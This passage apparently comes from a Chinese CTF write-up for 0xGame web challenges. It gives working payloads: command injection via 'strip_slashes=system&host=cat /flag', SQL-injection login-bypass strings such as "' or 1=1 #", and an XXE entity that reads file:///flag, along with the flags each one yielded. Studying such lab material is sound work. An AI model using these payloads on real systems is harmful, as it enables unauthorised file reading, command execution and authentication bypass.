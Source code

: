     set_time_limit(0);
    echo '<html><head><meta http-equiv="Content-Type" Content="text/html; Charset=utf-8"></head>';
    echo '<body bgcolor="#e8ddcb">';
    echo "<p><b>Log Helper</b></p>";
    $show_form($_REQUEST);
    echo "<pre>";
    $main($_REQUEST);
    echo "</pre>";  
});

highlight_file(__FILE__);
?>
</code></pre>
可以任意文件读取下载
<h3>最终</h3>
payload：./?strip_slashes=system&host=cat /flag

问题解决：0xGame{S4n9f0r_3dR_c4N_Rce_reC3n7_D4y}

<hr />
<h2>just_login</h2>
<h3>burp爆破</h3>
<h4>题目地址：<a class="url" href="http://web.game.0xctf.com:30055/" target="_blank" rel="noopener noreferrer">http://web.game.0xctf.com:30055/</a></h4>
dirsearch扫不到东西

sqlmap跑一下没用

不知道干啥，直接burp抓包用户名爆破
真爆出来了
<h3>最终</h3>
payload：
<pre><code>' or 0=0 #
' or 1=1 or ''='
x' or 1=1 or 'x'='y
</code></pre>
问题解决：0xGame{e5sy_sql_1njeCtion}

<hr />
<h2>close_eyes</h2>
<h3>注入</h3>
<h4>题目地址：<a class="url" href="http://web.game.0xctf.com:30052/" target="_blank" rel="noopener noreferrer">http://web.game.0xctf.com:30052/</a></h4>
<hr />
<h2>inject_me</h2>
<h3>XXE显式攻击</h3>
<h5>题目地址：<a class="url" href="http://web.game.0xctf.com:30061/" target="_blank" rel="noopener noreferrer">http://web.game.0xctf.com:30061/</a></h5>
<h3>最终</h3>
payload：
<pre><code><?xml version = "1.0"?>
<!DOCTYPE ANY [
<!ENTITY foo SYSTEM "file:///flag">]>
<user><username>&foo;</username><password>0</password></user>
</code></pre>
问题解决：0xGame{V2ry_simple_XXE}